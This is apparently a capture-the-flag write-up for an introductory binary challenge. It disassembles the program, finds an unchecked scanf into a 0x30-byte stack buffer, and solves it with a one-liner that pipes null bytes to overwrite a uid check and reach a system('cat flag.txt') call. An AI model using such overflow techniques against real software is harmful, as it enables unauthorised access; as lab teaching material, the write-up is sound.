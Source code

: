 ## Basic inspection
This is an intro chall so let's dive directly into the asm.

`objdump --disassemble=main -Mintel uid`:
```
0000000000001175 <main>:
    1175:       55                      push   rbp
    1176:       48 89 e5                mov    rbp,rsp
    1179:       48 83 ec 30             sub    rsp,0x30
    117d:       e8 ce fe ff ff          call   1050 <geteuid@plt>
    1182:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax
    1185:       48 8d 3d 78 0e 00 00    lea    rdi,[rip+0xe78]        # 2004 <_IO_stdin_used+0x4>
    118c:       b8 00 00 00 00          mov    eax,0x0
    1191:       e8 aa fe ff ff          call   1040 <printf@plt>
    1196:       48 8b 05 b3 2e 00 00    mov    rax,QWORD PTR [rip+0x2eb3]        # 4050 <stdout@GLIBC_2.2.5>
    119d:       48 89 c7                mov    rdi,rax
    11a0:       e8 bb fe ff ff          call   1060 <fflush@plt>
    11a5:       48 8d 45 d0             lea    rax,[rbp-0x30]
    11a9:       48 89 c6                mov    rsi,rax
    11ac:       48 8d 3d 5c 0e 00 00    lea    rdi,[rip+0xe5c]        # 200f <_IO_stdin_used+0xf>
    11b3:       b8 00 00 00 00          mov    eax,0x0
    11b8:       e8 b3 fe ff ff          call   1070 <__isoc99_scanf@plt>
    11bd:       83 7d fc 00             cmp    DWORD PTR [rbp-0x4],0x0
    11c1:       75 0e                   jne    11d1 <main+0x5c>
    11c3:       48 8d 3d 48 0e 00 00    lea    rdi,[rip+0xe48]        # 2012 <_IO_stdin_used+0x12>
    11ca:       e8 61 fe ff ff          call   1030 <system@plt>
    11cf:       eb 0c                   jmp    11dd <main+0x68>
    11d1:       48 8d 3d 47 0e 00 00    lea    rdi,[rip+0xe47]        # 201f <_IO_stdin_used+0x1f>
    11d8:       e8 53 fe ff ff          call   1030 <system@plt>
    11dd:       b8 00 00 00 00          mov    eax,0x0
    11e2:       c9                      leave
    11e3:       c3                      ret
```

The important part is:
```
...
    1179:       48 83 ec 30             sub    rsp,0x30
...
    11a5:       48 8d 45 d0             lea    rax,[rbp-0x30]
    11a9:       48 89 c6                mov    rsi,rax
...
    11b8:       e8 b3 fe ff ff          call   1070 <__isoc99_scanf@plt>
    11bd:       83 7d fc 00             cmp    DWORD PTR [rbp-0x4],0x0
    11c1:       75 0e                   jne    11d1 <main+0x5c>
    11c3:       48 8d 3d 48 0e 00 00    lea    rdi,[rip+0xe48]        # 2012 <_IO_stdin_used+0x12>
    11ca:       e8 61 fe ff ff          call   1030 <system@plt>
...
    11d1:       48 8d 3d 47 0e 00 00    lea    rdi,[rip+0xe47]        # 201f <_IO_stdin_used+0x1f>
    11d8:       e8 53 fe ff ff          call   1030 <system@plt>
...
```
We learn that: 
- the buffer is `0x30`  
- we write into the buffer with `scanf` 
- there is two call to system

## Exploitation
Let's execute the binary:
```
$ ./uid
username: AAAA
cat: flop.txt: No such file or directory
```

Because in local `flop.txt` doesn't exists we get an error but we guess that these `system` calls are some `cat ...` which is confirmed by `strings uid`:
```
...
[]A\A]A^A_
username:
cat flag.txt
cat flop.txt
...
```

The first system call is conditional so this is the one we must reach!

To do so, we have to fill the buffer with null bytes to satisfy the `cmp    DWORD PTR [rbp-0x4],0x0`.

The simplest solution is then:  
`python -c 'print("\x00"*0x30)' | ./uid`
